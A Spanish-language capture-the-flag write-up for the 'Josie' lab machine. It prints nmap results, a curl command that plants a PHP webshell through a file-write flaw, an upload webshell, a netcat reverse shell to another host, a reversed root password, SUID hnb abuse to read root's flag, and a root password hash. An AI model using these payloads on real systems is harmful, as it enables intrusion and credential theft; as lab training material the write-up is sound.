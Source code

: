 # Hackplayers 2018 - Josie

Maquina ‘Josie’ 10.42.0.151

Comenzamos realizando un escaneo con nmap encontramos los siguientes servicios

```
$ nmap -sV 10.42.0.151
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
81/tcp  open  http    Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind 2-4 (RPC #100000)
```

La aplicación tiene bastantes vulnerabilidades, aprovechamos una que nos permite subir archivos para subir una webshell simple `<?php system($_GET[1]) ?>`.

![](img/josie-web1.png)

```
$ curl '10.42.0.151/dapur/apps/app_theme/libs/save_file.php' --data 'content=<?php system($_GET[1]) ?>&src=shell.php'
```

Probamos la webshell

```
$ curl 'http://10.42.0.151/dapur/apps/app_theme/libs/shell.php?1=whoami'
www-data
```

Ahora subimos otra webshell, que nos permita subida de archivos para trabajar subir cualquier archivo grande de forma cómoda. Para ello, podemos utilizar la vulnerabilidad anterior, o el comando echo en la webshell.

```
<?php if(is_uploaded_file(@$_FILES["userfile"]["tmp_name"])) {move_uploaded_file($_FILES["userfile"]["tmp_name"],
 $_FILES["userfile"]["name"]);echo "Uploaded: <b>".$_FILES["userfile"]["name"]."</b>";}?>
 <form enctype="multipart/form-data" action="" method="post"><input name="userfile" type="file">
 <input type="submit" value="Upload"></form>
```

```
curl '10.42.0.151/dapur/apps/app_theme/libs/save_file.php' --data 'content=<?php if(is_uploaded_file(@$_FILES["userfile"]["tmp_name"])) {move_uploaded_file($_FILES["userfile"]["tmp_name"], $_FILES["userfile"]["name"]);echo "Uploaded: <b>".$_FILES["userfile"]["name"]."</b>";}?><form enctype="multipart/form-data" action="" method="post"><input name="userfile" type="file"><input type="submit" value="Upload"></form>
&src=upload.php'
```

![](josie-upload.png)

Podemos usar la opción “fácil” para hacer una shell reversa de b374k o utilizar la ejecución de comandos con `nc -e /bin/bash 10.42.0.201 8080`

Una vez recibimos la conexión reversa, convertirmos la shell en interactiva.

```
python -c 'import pty;pty.spawn("/bin/bash")'
^Z
stty -icanon -isig -echo;fg;stty sane
```

La flag se encuentra ‘escondida’ en /home/alice/ con el nombre .flag.txt. Al no tener restricción de permisos, la leemos directamente.

```
$ cat .flag.txt
Flag{20ea...}
```

En el home de alice también tenemos un archivo pcap para la prueba de Forense.

Tambien tenemos una prueba con nombre Elevate. Se trata de un binario x86 sin suid que a primera vista nos da la contraseña de root si lo resolvemos.

Para trabajar mejor con el vamos a instalar [gdb-peda](https://github.com/longld/peda), como no tenemos acceso directo a internet en la máquina, decargamos el repositorio en /tmp/www-data

```
cd /tmp/www-data
export HOME=/tmp/www-data
echo "source ~/peda/peda.py" >> ~/.gdbinit
gdb /home/alice/Elevate/root
```

Analizando el binario, se obtiene una de las soluciones posibles.

```
$ echo ArtVFqs28tXhd | ./root z z z z z z z z z z z z z z z z z z z z z z z z z z z z z z z z A
```

Al parecer esto no sirve para nada realmente útil, ya que no es la contraseña de ningún usuario del sistema.

## Actualización

La solución correcta se obtenía utilizando el carácter ‘1’ 81 veces. Observando que strcat añade la letra Q al texto introducido. Obteniendo la contraseña de root ArtVFqs28tXhdQ.

```
$ echo ArtVFqs28tXhd | ltrace ./root $(python -c 'print "1 "*81')
...
strcat("ArtVFqs28tXhd", "Q\001") = "ArtVFqs28tXhdQ\001"
strcmp("ArtVFqs28tXhdQ\001", "ArtVFqs28tXhdQ\001")
puts("Congratz! You know now the password.")
```

## PrivEsc

Pasamos a analizar vulnerabilidades en el sistema que nos permitan escalar privilegios. Para ello se utiliza [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)

```
[+] SUID/SGID Files and Directories
    -rwsrwxrwx 1 root root 160164 Jul 13  2013 /usr/bin/hnb
```

```
www-data@Josie:/$ hnb -ui cli -a /root/flag.txt
hnb - hierarchical notebook   http://hnb.sourceforge.net/
ascii import, imported "/root/flag.txt"
Welcome to hnb 1.9.18
type ? or help for more information
/>ls
flag{14ui...}  < 
```

![](img/josie-hnb.png)

También podemos utilizar hnb para leer el hash de root, y posiblemente modificarlo para poder escalar privilegios. `root:$6$pyY9Sms.$1LBD1lxwIDbuZztQOCgv7hMDyO2zzVCHWrAMRhR8UmfEAaZYcDVmpQ08GsIFywGrQKQU3Bswn6`

